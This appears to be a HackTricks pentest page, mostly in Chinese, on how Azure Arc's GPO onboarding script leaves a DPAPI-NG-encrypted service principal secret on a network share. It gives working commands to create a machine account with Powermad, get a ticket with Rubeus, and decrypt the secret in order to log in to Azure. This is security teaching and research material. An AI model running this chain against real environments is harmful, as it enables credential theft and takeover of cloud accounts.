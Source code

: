 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### Identifying the Issues

Azure Arc 允许通过组策略对象方法将新的内部服务器（加入域的服务器）集成到 Azure Arc 中。为此，Microsoft 提供了一个部署工具包，用于启动入驻程序。在 ArcEnableServerGroupPolicy.zip 文件中，可以找到以下脚本：DeployGPO.ps1、EnableAzureArc.ps1 和 AzureArcDeployment.psm1。

当执行 DeployGPO.ps1 脚本时，它会执行以下操作：

1. 在本地域中创建 Azure Arc 服务器入驻 GPO。
2. 将 EnableAzureArc.ps1 入驻脚本复制到为入驻过程创建的指定网络共享中，该共享还包含 Windows 安装程序包。

运行此脚本时，系统管理员需要提供两个主要参数：**ServicePrincipalId** 和 **ServicePrincipalClientSecret**。此外，还需要其他参数，例如域、托管共享的服务器的 FQDN 和共享名称。还必须向脚本提供租户 ID、资源组和其他必要信息等详细信息。

在指定共享的 AzureArcDeploy 目录中使用 DPAPI-NG 加密生成一个加密的秘密。加密的秘密存储在名为 encryptedServicePrincipalSecret 的文件中。可以在 DeployGPO.ps1 脚本中找到证据，其中通过调用 ProtectBase64 以 $descriptor 和 $ServicePrincipalSecret 作为输入来执行加密。描述符由域计算机和域控制器组 SID 组成，确保 ServicePrincipalSecret 只能由域控制器和域计算机安全组解密，如脚本注释中所述。
```bash
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

我们有以下条件：

1. 我们已经成功渗透了内部网络。
2. 我们有能力在 Active Directory 中创建或控制计算机帐户。
3. 我们发现了一个包含 AzureArcDeploy 目录的网络共享。

在 AD 环境中获取计算机帐户有几种方法。最常见的方法之一是利用计算机帐户配额。另一种方法涉及通过易受攻击的 ACL 或各种其他错误配置来破坏计算机帐户。
```bash
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
一旦获得机器账户，就可以使用该账户进行身份验证。我们可以使用带有 netonly 标志的 runas.exe 命令，或者使用 Rubeus.exe 进行票证传递。
```bash
runas /user:fake01$ /netonly powershell
```

```bash
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
通过将计算机帐户的 TGT 存储在内存中，我们可以使用以下脚本解密服务主体密钥。
```bash
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
另外，我们可以使用 [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG)。

此时，我们可以从存储在与 encryptedServicePrincipalSecret 文件相同的网络共享上的 ArcInfo.json 文件中收集连接到 Azure 所需的其余信息。该文件包含以下详细信息：TenantId、servicePrincipalClientId、ResourceGroup 等。凭借这些信息，我们可以使用 Azure CLI 作为被攻陷的服务主体进行身份验证。

## References

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}
